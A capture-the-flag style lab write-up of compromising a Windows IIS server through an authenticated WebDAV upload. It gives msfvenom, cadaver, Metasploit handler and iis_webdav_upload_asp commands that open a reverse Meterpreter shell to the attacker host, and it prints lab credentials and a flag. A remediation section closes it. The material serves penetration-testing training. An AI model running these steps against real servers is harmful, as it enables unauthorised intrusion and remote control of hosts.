# Windows: IIS Server WebDAV (Metasploit)

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (10.2.19.184) — AD-IIS, Windows Server 2019 (Build 17763)<br>
**Attacker:** 10.10.37.8 (Kali)<br>
**Credentials:** `bob:password_123321`<br>
**Flag:** `d3aff16a801b4b7d36b4da1094bee345`

## 1. Executive Summary

The IIS server exposes an authenticated **WebDAV** directory that allows file uploads. We
exploit it two ways: (1) manually — generate an ASP Meterpreter shell with `msfvenom`,
upload it with `cadaver`, and trigger it against a handler; and (2) with the
`iis_webdav_upload_asp` module, which uploads, executes and then deletes the ASP payload
automatically. Both yield a Meterpreter session; the flag is in `C:\flag.txt`.

## 2. Recon

```bash
ping -c 4 demo.ine.local      # 10.2.19.184
```



An unauthenticated `http-enum` / WebDAV access returns 401 — authorization required.





The lab-provided credentials let us in.



## 3. Method 1 — Manual ASP Shell (cadaver)

Generating an ASP Meterpreter payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.37.8 LPORT=1234 -f asp > shell.asp
```



Connecting to WebDAV with `cadaver` and uploading it.

```bash
cadaver http://demo.ine.local/webdav
# Username: bob / Password: password_123321
ls
put shell.asp
```







Starting a matching handler.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.37.8
set LPORT 1234
run
```



Browsing to the uploaded `shell.asp` executes it.



A Meterpreter session opens on **AD-IIS**.

```
sysinfo    # AD-IIS — Windows Server 2019
```



## 4. Method 2 — iis_webdav_upload_asp Module

```bash
use exploit/windows/iis/iis_webdav_upload_asp
set HttpUsername bob
set HttpPassword password_123321
set RHOSTS 10.2.19.184
set PATH /webdav/metasploit.asp
```



```bash
exploit
```



Notably, the module **deletes the uploaded ASP file** afterwards, cleaning up the artifact.



## 5. Capturing the Flag

```bash
cd C:\
dir
cat flag.txt
# d3aff16a801b4b7d36b4da1094bee345
```



## 6. Remediation Recommendations

1. **Disable WebDAV** on IIS, or make it read-only and block script execution in upload
   directories (remove Execute/Script permissions).
2. **Separate upload and executable paths** so uploaded content can never be run as ASP.
3. **Enforce strong credentials** and least privilege for the IIS/WebDAV accounts.
4. **Monitor** for `PUT` of executable extensions and unexpected ASP execution.
